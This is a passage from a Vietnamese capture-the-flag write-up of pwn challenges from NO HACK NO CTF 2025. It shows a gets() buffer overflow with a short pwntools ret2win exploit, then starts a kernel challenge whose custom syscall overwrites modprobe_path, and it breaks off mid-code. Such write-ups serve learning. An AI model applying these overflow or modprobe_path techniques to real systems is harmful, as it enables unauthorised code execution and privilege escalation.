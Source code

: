 ```yaml
---
title: "NO HACK NO CTF 2025"
date: 2025-07-10 00:00:00 +0800
categories: [pwn]
tags: [writeup]
author: "kuvee"
layout: post
---
```



![image](https://hackmd.io/_uploads/HJDj-9qBxg.png)

3 bài chưa giải được là 3 bài web + pwn  , còn bài cuối là crypto + pwn , mình có nhờ web player xem thử nhưng anh ấy cũng bỏ cuộc T_T

- bài này là ret2win nên có lẽ skip :3 

```c
__int64 vuln()
{
  _BYTE v1[64]; // [rsp+0h] [rbp-40h] BYREF

  puts("Welcome to the world of dango daikazoku");
  printf("enter a dango:");
  return gets(v1);
}
```
exp: 

```python
def exploit():
    input()
    sl(b"a" * 64 + p64(0) + p64(0x000000000040128F) + p64(exe.sym.Clannad))

    interactive()
```


## No.5️⃣4️⃣9️⃣

- author cung cấp file `naup.c` , đây là 1 đoạn code được patch vào kernel để tự thêm 1 syscall mới , ở bên dưới ta có thể thấy 1 marco `SYSCALL_DEFINE2` , đây là 1 marco của `linux kernel` giúp định nghĩa 1 syscall mới , 2 ở đây tương ứng với 2 đối số được truyền vào , tương tự `0,1,2,3,4,5,6`  


```c
❯ cat naup.c
#include <linux/kernel.h>
#include <linux/syscalls.h>
#include <linux/kmod.h>
#include <asm/uaccess_64.h>

SYSCALL_DEFINE2(naup, void __user *, kaddr, const char __user *, str) {
    char buf[8];

    if ((char *)kaddr != modprobe_path) {
        printk(KERN_INFO "naup syscall: Invalid address!\n");
        return -EPERM;
    }

    if (copy_from_user(buf, str, 8)) {
        printk(KERN_INFO "naup syscall: copy_from_user failed!\n");
        return -EFAULT;
    }

    memcpy(kaddr, buf, 8);
```